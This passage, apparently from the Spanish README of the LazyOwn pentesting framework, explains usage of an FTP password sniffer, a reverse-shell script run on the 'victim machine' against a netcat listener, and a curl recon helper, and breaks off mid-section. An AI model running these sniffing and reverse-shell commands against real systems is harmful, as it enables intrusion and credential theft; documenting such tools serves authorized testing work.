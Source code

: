 este modulo sirve para buscar claves en la red de servidores ftp, algunos me dirán que no se ya no se usa pero se sorprenderian en los entornos productivos en infraestructura critica que e visto maquinas con FTP's masivos corriendo en sus servidores :)

```sh
set device eth0
run lazyftpsniff
```

![image](https://github.com/grisuno/LazyOwn/assets/1097185/d2d1c680-fc03-4f60-adc4-20248f3e3859)

## Uso modo LazyReverseShell

primero nos ponemos en escucha con el comando

```sh
nc -nlvp 1337 #o el puerto que escojamos 
```

![image](https://github.com/grisuno/LazyOwn/assets/1097185/dfb7a81d-ac7f-4b8b-8f1f-717e058260b5)

para luego en la maquina victima

```sh
./lazyreverse_shell.sh --ip 127.0.0.1 --puerto 1337
```

![image](https://github.com/grisuno/LazyOwn/assets/1097185/b489be5d-0b53-4054-995f-6106c9c95190)

## Uso modo Lazy Curl to recon

el modulo está en modules y se usa así:

```sh
chmod +x lazycurl.sh
```

Ejecutar el script con los parámetros deseados. Por ejemplo:

```sh
./lazycurl.sh --mode GET --url http://10.10.10.10
```

Ejemplos de uso

Enviar una solicitud GET:

```sh
./lazycurl.sh --mode GET --url http://10.10.10.10
```

Enviar una solicitud POST:

```sh
./lazycurl.sh --mode POST --url http://10.10.10.10 --data "param1=value1&param2=value2"
```

Probar un método TRACE:

